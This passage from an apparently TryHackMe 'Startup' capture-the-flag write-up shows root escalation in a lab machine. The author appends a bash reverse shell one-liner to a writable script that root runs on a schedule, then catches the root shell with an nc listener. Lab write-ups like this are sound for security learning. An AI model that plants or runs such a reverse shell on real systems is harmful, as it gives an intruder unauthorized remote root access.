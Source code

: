 root is running the script regularly, I can determine its root as the UID is 0. 

```highlight
lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
bash -i >& /dev/tcp/(VPN IP)/8888 0>&1
lennie@startup:~/scripts$ 
```

I edit the print.sh script with a bash reverse shell one liner and wait for the script to execute.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Startup]
└──╼ $nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.8.21.217] from (UNKNOWN) [10.10.27.29] 34830
bash: cannot set terminal process group (2212): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cd /root
cd /root
root@startup:~# ls -lah
ls -lah
total 28K
drwx------  4 root root 4.0K Nov 12 04:54 .
drwxr-xr-x 25 root root 4.0K Nov 21 10:58 ..
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4.0K Nov 12 04:54 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   38 Nov 12 04:53 root.txt
drwx------  2 root root 4.0K Nov 12 04:50 .ssh
root@startup:~# 
```

Wait a few seconds and root shell! I really enjoyed this room, particularly the Wireshark element reviewing the capture to locate credentials. 

### Secret ingredient

I still need to find the secret ingredient from the recipe! This can be found at /recipe.txt

```highlight
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was [redacted].
```

Thanks for reading!
